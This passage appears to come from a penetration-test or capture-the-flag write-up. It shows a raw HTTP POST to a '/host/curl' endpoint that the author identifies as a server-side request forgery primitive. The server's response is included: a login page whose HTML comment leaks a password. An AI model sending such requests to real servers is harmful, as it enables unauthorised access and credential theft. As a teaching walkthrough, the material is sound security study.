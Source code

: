 I then explored the `/host/curl` endpoint. It appears to make CURL requests against the host and
returns the response. This is an SSRF primitive.

```
POST /host/curl HTTP/1.1
Host: 176.32.76.86:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 23
Origin: http://176.32.76.86
Connection: close
Referer: http://176.32.76.86/

{
  "host": "176.32.76.86"
}
```

Response received:

```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 475
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: Content-Type,Authorization
Access-Control-Allow-Methods: GET,PUT,POST,DELETE,OPTIONS
Server: Werkzeug/2.0.2 Python/3.6.9
Date: Fri, 26 Nov 2021 06:14:46 GMT


<!DOCTYPEE html>
<html>
    <head>
        <meta charset="UTF-8">
    </head>
    <body>
    <div class="message"></div>
        <form action="index.php" method="post">
            <p>
                username: <input type="text" name="username" value="user1">
            </p>
            <p>
		password: <input type="password" name="password">
		<!-- ...password 1234 -->
            </p>
            <input type="submit" value="send">
        </form>
    </body>
</html>

```
